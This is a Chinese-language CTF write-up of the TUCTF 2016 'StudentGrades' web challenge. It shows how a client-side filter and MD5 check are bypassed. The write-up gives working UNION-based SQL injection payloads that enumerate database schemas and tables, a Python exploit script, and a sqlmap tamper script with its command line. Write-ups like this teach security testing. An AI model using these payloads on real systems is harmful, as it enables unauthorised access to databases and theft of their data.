```yaml
---
layout:     post
title:      "tuctf2016-web-StudentGrades"
date:       2016-05-30 14:00
category:   writeup
tag:        [tuctf2016,sql,代码审计]
---
```

# 题目信息

`score: 200` `type:web,sql,代码审计` `source: tuctf2016`


[原题地址](http://104.199.151.39/index.html) &emsp;[猜解源码]()&emsp;[题目收集](http://ctf.a306.xyz:8001/tuctf2016/StudentGrades/)

## 题目描述

We are trying to find out what our grade was, but we don't seem to be in the database...

Can you help us out?

[点击这里](http://ctf.a306.xyz:8001/tuctf2016/StudentGrades/)

打开网址，一个查询界面

![](tuctf2016-StudentGrades-1.png)

## 知识点

[Ajax](http://www.w3school.com.cn/jquery/ajax_ajax.asp)

[sql injection](https://www.youtube.com/watch?v=0tyerVP9R98&index=19&list=PLkiAz1NPnw8qEgzS7cgVMKavvOAdogsro)

# 题目分析

## 查看源代码

页面本身没什么特别的，查看源代码发现一段javaScript

```
<script>
document.getElementById('submit').addEventListener('click',
  function(event){
    event.preventDefault();
    var input = document.getElementById('info');
    //var query = 'SELECT * from Names where name=\'' + input.value + '\'';
    var inp_str = input.value;
    inp_str = inp_str.replace(/\W+/g, " ");
    var md5_str = hex_md5(inp_str);
    var send_str = inp_str+' '+md5_str;
    var post_data = {name: send_str, submit:1};
    $.ajax({
        type: "POST",
        url: "postQuery.php",
        data: post_data,
        success: function(data){document.getElementById('results').innerHTML=data;}
    });
  }
);
</script>
```

由源码得知，在点击submit按钮之后，我们输入的字符串通过ajax方式传递给postQuery.php,postQuery再将查询结果返回来。

## 分析源码漏洞

代码对输入字符串做了过滤

`inp_str = inp_str.replace(/\W+/g, " ");`

匹配任何非单词字符，等价于“[^A-Za-z0-9_]”，然后替换成空格。

同时，我们注意到，代码还做了如下处理

```
var md5_str = hex_md5(inp_str);
var send_str = inp_str+' '+md5_str;
```

即在字符串后附加该字符串的md5值，如果发生了字符串替换，则md5必然不同，可以认为用户输入了非法字符。

因为对字符串的过滤处理放在了前端，因此我们可以直接向postQuery.php发送我们自己定义的数据以绕过过滤

```
curl -d "name=boby c83e4046a7c5d3c4bf4c292e1e6ec681&submit=1"  http://104.199.151.39/postQuery.php
```

而如果将同样的过滤处理放在后端的话，则绕过就比较难

# Exploit1
```
# coding: utf-8
import requests, md5
m = md5.new()

query1 = "tables%' UNION SELECT database(), @@version; -- "

query2 = "tables%' UNION SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'; -- "

query3 = "tables%' union select table_name,column_name from information_schema.columns where table_schema != 'mysql' AND table_schema != 'information_schema'; -- "

query4 = "tables%' union select * from tuctf_junk; -- "

query5 = "tables%' union select * from tuctf_info; -- "

m.update(query3)

r = requests.post("http://ctf.a306.xyz:8001/tuctf2016/StudentGrades/postQuery.php", data={"name":query3+' '+m.hexdigest(),"submit":"1"})

print r.text
```

# Exploit2

addmd5.py

```
#!/usr/bin/env python

from lib.core.enums import PRIORITY
import md5

__priority__ = PRIORITY.LOW

def dependencies():
    pass

def tamper(payload, **kwargs):

    retVal = payload

    if payload:
		 m = md5.new()
		 m.update(payload)
		 retVal = payload +' '+m.hexdigest()
    return retVal
```

`sqlmap -u http://ctf.a306.xyz:8001/tuctf2016/StudentGrades/postQuery.php --schema --exclude-sysdbs --tamper addmd5.py`

# 参考文献

http://www.codehead.co.uk/tuctf2016-student-grades/
